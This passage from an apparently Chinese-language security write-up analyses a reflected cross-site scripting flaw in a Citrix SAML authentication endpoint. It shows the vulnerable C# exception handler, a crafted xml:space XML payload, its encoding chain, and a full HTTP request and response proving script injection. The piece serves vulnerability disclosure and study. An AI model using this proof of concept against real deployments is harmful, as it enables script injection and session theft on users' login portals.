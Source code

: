 ```
            identity = samlResult.Name,
            assertion = samlResult.Assertion,
            claims = samlResult.Identity.Claims.Select((Claim claim) => claim.ToString()).ToList()
        });
        return new ContentResult
        {
            Content = xmlDocument.InnerXml,
            ContentType = "text/html"
        };
    }
    catch (Exception arg)
    {
        return new ContentResult
        {
            Content = $"<html><body><h1>Exception</h1><div>{arg}</div></body></html>",
            ContentType = "text/html"
        };
    }
}
```  
  
COPY  
  
该团队立即注意到的异常处理程序中的字符串没有进行任何处理，如果用户可以控制输入的异常消息，那么就可以实现跨站点脚本攻击，于是他们搜索了 SamlManager.ProcessPackedSamlData 以查看哪些代码路径引发了异常。  
  
XML 解析异常通常包含反射输入，但一般都会受到限制，不允许使用利用漏洞所需的特殊字符，但是在枚举 dotnet 运行时使用的 XML 错误消息后（https://github.com/dotnet/runtime/blob/main/src/libraries/System.Private.Xml/src/Resources/Strings.resx），发现'{0}' 是无效的 xml:space 值，通过利用这一特点，就可以创建以下 XML Payload：  
  
<foo xml:space="<script>alert(1)</script>"></foo>  
  
然后，Payload经过 Base64 编码、JSON 编码、压缩并再次进行 Base64 编码，通过以下请求/响应包，最终编写了XSS利用脚本：  
```
POST /Citrix/teststoreAuth/SamlTest HTTP/2
Host: 192.168.1.100
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

SAMLResponse=q1YKdvT1CUotLsjPK05VskLhBrhHlSVVOpkkhZebJRs7ZUQahVp6ZkYVp7iUVEUaexUkewTmRhkHmkeGV%2bQk5wXm%2bwZn5yZ5BJr7GPtlJefmlKc4R%2bWluBRnBmSVl0XlWpYFpNvaKtUCAA%3d%3d

HTTP/2 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
Set-Cookie: Citrix_AuthSvc=qfa2vmj5vg2kb2xhvqakygh4; path=/Citrix/teststoreAuth; secure; HttpOnly; SameSite=Lax
Date: Mon, 04 Sep 2023 06:00:02 GMT
Content-Length: 1006
<html><body><h1>Exception</h1><div>System.Xml.XmlException: '<script>alert(1)</script>' is an invalid xml:space value. Line 1, position 6.
   at System.Xml.XmlTextReaderImpl.Throw(Exception e)
   at System.Xml.XmlTextReaderImpl.OnXmlReservedAttribute(NodeData attr)
   at System.Xml.XmlTextReaderImpl.ParseAttributes()
   at System.Xml.XmlTextReaderImpl.ParseElement()
   at System.Xml.XmlTextReaderImpl.ParseDocumentContent()
   at System.Xml.XmlLoader.Load(XmlDocument doc, XmlReader reader, Boolean preserveWhitespace)
   at System.Xml.XmlDocument.Load(XmlReader reader)
   at System.Xml.XmlDocument.LoadXml(String xml)
   at Citrix.DeliveryServices.Authentication.Saml20.SamlProtocol.GetSamlAttributeFromResponse(String signInResponseResult)
   at Citrix.DeliveryServices.Authentication.Saml20.SamlManager.ProcessSamlResponse(String base64EncodedResponse, Boolean compressed)
```